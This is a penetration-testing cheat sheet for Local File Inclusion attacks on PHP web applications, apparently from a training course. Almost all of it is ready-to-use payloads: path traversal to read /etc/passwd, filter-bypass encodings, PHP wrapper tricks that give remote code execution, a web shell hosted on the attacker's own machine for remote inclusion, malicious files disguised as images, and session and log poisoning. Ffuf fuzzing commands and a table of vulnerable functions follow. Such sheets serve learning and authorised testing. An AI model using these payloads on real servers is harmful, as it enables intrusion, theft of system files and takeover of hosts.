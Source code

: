 ## Local File Inclusion

|**Command**|**Description**|
|---|---|
|**Basic LFI**||
|`/index.php?language=/etc/passwd`|Basic LFI|
|`/index.php?language=../../../../etc/passwd`|LFI with path traversal|
|`/index.php?language=/../../../etc/passwd`|LFI with name prefix|
|`/index.php?language=./languages/../../../../etc/passwd`|LFI with approved path|
|**LFI Bypasses**||
|`/index.php?language=....//....//....//....//etc/passwd`|Bypass basic path traversal filter|
|`/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64`|Bypass filters with URL encoding|
|`/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]`|Bypass appended extension with path truncation (obsolete)|
|`/index.php?language=../../../../etc/passwd%00`|Bypass appended extension with null byte (obsolete)|
|`/index.php?language=php://filter/read=convert.base64-encode/resource=config`|Read PHP with base64 filter|

## Remote Code Execution

|**Command**|**Description**|
|---|---|
|**PHP Wrappers**||
|`/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`|RCE with data wrapper|
|`curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"`|RCE with input wrapper|
|`curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`|RCE with expect wrapper|
|**RFI**||
|`echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>`|Host web shell|
|`/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`|Include remote PHP web shell|
|**LFI + Upload**||
|`echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`|Create malicious image|
|`/index.php?language=./profile_images/shell.gif&cmd=id`|RCE with malicious uploaded image|
|`echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`|Create malicious zip archive 'as jpg'|
|`/index.php?language=zip://shell.zip%23shell.php&cmd=id`|RCE with malicious uploaded zip|
|`php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`|Create malicious phar 'as jpg'|
|`/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`|RCE with malicious uploaded phar|
|**Log Poisoning**||
|`/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`|Read PHP session parameters|
|`/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`|Poison PHP session with web shell|
|`/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`|RCE through poisoned PHP session|
|`curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'`|Poison server log|
|`/index.php?language=/var/log/apache2/access.log&cmd=id`|RCE through poisoned PHP session|

## Misc

|**Command**|**Description**|
|---|---|
|`ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287`|Fuzz page parameters|
|`ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287`|Fuzz LFI payloads|
|`ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287`|Fuzz webroot path|
|`ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287`|Fuzz server configurations|
|[LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)||
|[LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt)||
|[Webroot path wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt)||
|[Webroot path wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt)||
|[Server configurations wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux)||
|[Server configurations wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows)||

## File Inclusion Functions

|**Function**|**Read Content**|**Execute**|**Remote URL**|
|---|:-:|:-:|:-:|
|**PHP**||||
|`include()`/`include_once()`|Yes|Yes|Yes|
|`require()`/`require_once()`|Yes|Yes|No|
|`file_get_contents()`|Yes|No|Yes|
|`fopen()`/`file()`|Yes|No|No|
|**NodeJS**||||
|`fs.readFile()`|Yes|No|No|
|`fs.sendFile()`|Yes|No|No|
|`res.render()`|Yes|Yes|No|
|**Java**||||
|`include`|Yes|No|No|
|`import`|Yes|Yes|Yes|
|**.NET**||||
|`@Html.Partial()`|Yes|No|No|
|`@Html.RemotePartial()`|Yes|No|Yes|
|`Response.WriteFile()`|Yes|No|No|
|`include`|Yes|Yes|Yes|

